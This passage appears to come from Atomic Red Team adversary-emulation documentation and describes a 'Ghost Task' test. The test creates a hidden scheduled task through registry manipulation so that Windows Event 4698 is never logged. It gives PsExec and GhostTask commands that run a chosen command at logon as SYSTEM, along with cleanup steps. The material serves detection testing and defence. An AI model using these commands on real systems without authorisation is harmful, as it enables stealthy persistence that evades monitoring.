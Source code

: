 #### Cleanup Commands:
```powershell
Unregister-ScheduledTask -TaskName "AtomicTaskModifed" -confirm:$false >$null 2>&1
```





<br/>
<br/>

## Atomic Test #10 - Scheduled Task ("Ghost Task") via Registry Key Manipulation
Create a scheduled task through manipulation of registry keys. This procedure is implemented using the [GhostTask](https://github.com/netero1010/GhostTask) utility. By manipulating registry keys under HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree, the tool creates user-specified scheduled tasks without a corresponding Windows Event 4698, which is logged when scheduled tasks are created through conventional means.
This requires a download of the GhostTask binary, which must be run as NT Authority\SYSTEM. Upon successful execution of this test, a scheduled task will be set to run at logon which launches notepad.exe or runs a user-specified command.
For further exploration of this procedure and guidance for hunting and detection, see [Hunting G-G-G-GhostTasks!](https://medium.com/p/154b50ab6a78).

**Supported Platforms:** Windows


**auto_generated_guid:** 704333ca-cc12-4bcf-9916-101844881f54





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| task_name | Name of the newly-added task | string | lilghostie|
| task_command | Command you want the task to execute | string | notepad.exe|
| target | System where the task should run | string | localhost|
| user_name | Username to authenticate with, such as ATOMICDOMAIN&#92;AtomicAdmin | string | $env:USERDOMAIN + '&#92;' + $env:USERNAME|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" \\#{target} -accepteula -s "cmd.exe"
"PathToAtomicsFolder\..\ExternalPayloads\GhostTask.exe" \\#{target} add #{task_name} "cmd.exe" "/c #{task_command}" #{user_name} logon
```

#### Cleanup Commands:
```cmd
"PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" \\#{target} -accepteula -s "cmd.exe"
"PathToAtomicsFolder\..\ExternalPayloads\GhostTask.exe" \\#{target} delete #{task_name} > nul
```

